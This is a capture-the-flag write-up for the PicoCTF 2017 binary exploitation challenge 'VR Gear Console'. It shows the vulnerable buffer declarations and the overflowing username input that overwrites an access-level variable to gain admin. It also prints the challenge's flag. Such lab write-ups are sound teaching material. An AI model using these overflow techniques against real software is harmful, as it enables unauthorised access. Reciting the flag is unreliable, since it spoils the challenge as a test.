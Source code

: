 # PicoCTF 2017- Level 2 - Binary Exploitation 6

**Title:** VR Gear Console  
**Category:** Binary Exploitation  
**Points:** 95  
**Description:**

>Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/d07d574d3d27c5eeb03bce97956ef1c3  

**Hint:**

>What happens if you read in more characters than the length of the username buffer?  
>You should look at an ascii table to see what character you need to choose.  
>Numbers are stored in little-endian format, which means that the lowest byte of the number is first.  
>"cat file - | vrgearconsole " will keep the pipe open for commands.  

## Solution

First let's check what's in the program folder:  
    $ cd /problems/d07d574d3d27c5eeb03bce97956ef1c3  
    $ ls -l  
    total 16  
    -r--r----- 1 hacksports vr-gear-console_4   33 Apr 16  2017 flag.txt  
    -rwxr-sr-x 1 hacksports vr-gear-console_4 7024 Apr 16  2017 vrgearconsole  
    -rw-rw-r-- 1 hacksports hacksports        2104 Mar 14  2017 vrgearconsole.c  

We can check the [source](vrgearconsole.c) and find a potential buffer overflow in the `login()` function:  
```C
int accessLevel = 0xff;  
char username[16];  
char password[32];  
```

Let's try:

    $ ./vrgearconsole  
    [...]  
    Username (max 15 characters): 0123456789abcdefg  
    Password (max 31 characters): a  
    Your access level is: 0x00000067  
    Login successful.  
    You do not have permission to access this resource.  

We can see that even if our username/password combo doesn't exist we are still successfully logging into the system. Also the overflowing char is overwriting the `accessLevel` variable.  
Since we need the `accessLevel` to be equal to `2` to be admin, our last char will need to convert to a hexadecimal number starting by `2`. For example, let's use `/` (`2f` in hexadecimal):  

    $ ./vrgearconsole  
    [...]  
    Username (max 15 characters): 0123456789abcdef/  
    Password (max 31 characters): a  
    Your access level is: 0x0000002f  
    Admin access granted!  
    The flag is in "flag.txt".  
    $ cat flag.txt  
    1ce8d7a95570d97333d52675fe099c27  

So the flag for this one is `1ce8d7a95570d97333d52675fe099c27`